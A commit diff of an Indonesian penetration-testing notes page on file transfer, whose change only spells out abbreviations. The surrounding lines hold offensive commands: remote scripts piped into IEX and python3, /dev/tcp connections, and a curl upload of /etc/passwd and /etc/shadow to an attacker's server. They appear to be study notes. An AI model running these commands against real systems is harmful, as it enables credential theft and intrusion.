

Before and after one commit to nmwafa/nmwafa.github.io, a Markdown page: notes/file-transfer.md, 2 parts joined by grey strips. Shown at 88% size. GitHub-like rendering.

````diff
--- a/notes/file-transfer.md
+++ b/notes/file-transfer.md
@@ -191,8 +191,8 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
   wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
   ```
 
-### Metode 4: donlot dg bash (/dev/tcp)
-- Koneksi dh web server komp target
+### Metode 4: download dengan bash (/dev/tcp)
+- Koneksi dh web server komputer target
   ```
   exec 3<>/dev/tcp/10.10.10.32/80
   ```
@@ -205,8 +205,8 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
   cat <&3
   ```
 
-### Metode 5: SSH donlot
-- Di kmp attacker
+### Metode 5: SSH download
+- Di komputer attacker
   ```
   sudo systemctl enable ssh
   sudo systemctl start ssh
@@ -215,17 +215,17 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
   ```
   netstat -lnpt
   ```
-- Donlot dari target dg scp
+- Download dari target dengan scp
   ```
   scp plaintext@<ip>:/root/myroot.txt .
   ```
 
 ### Metode 6: web upload
-- Di komp attacker
+- Di komputer attacker
   ```
   sudo python3 -m pip install --user uploadserver
   ```
-- Buat *selfsigned certificate* (masih di komp attacker)
+- Buat *selfsigned certificate* (masih di komputer attacker)
   ```
   openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
   ```
@@ -234,7 +234,7 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
   mkdir https && cd https
   sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
   ```
-- Upload dari komp target
+- Upload dari komputer target
   ```
   curl -X POST https://<ip>/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
   ```
@@ -245,7 +245,7 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
 - Dengan python2.7: `python2.7 -m SimpleHTTPServer`
 - Dengan PHP: `php -S 0.0.0.0:8000`
 - Dengan ruby: `ruby -run -ehttpd . -p8000`
-- Download file dg curl/wget
+- Download file dengan curl/wget
 
 ### Metode 8: SCP upload
 
@@ -286,7 +286,7 @@ scp /path-file-yg-diupload username@10.129.86.90:/home/batagor/
     BinStream.Write(WinHttpReq.ResponseBody);
     BinStream.SaveToFile(WScript.Arguments(1));
     ```
-  - Donlot dengan skrip tadi dari windows
+  - Download dengan skrip tadi dari windows
     ```
     cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
     ```
````
Also changed, not shown: other parts of notes/file-transfer.md (+31 -31 lines).
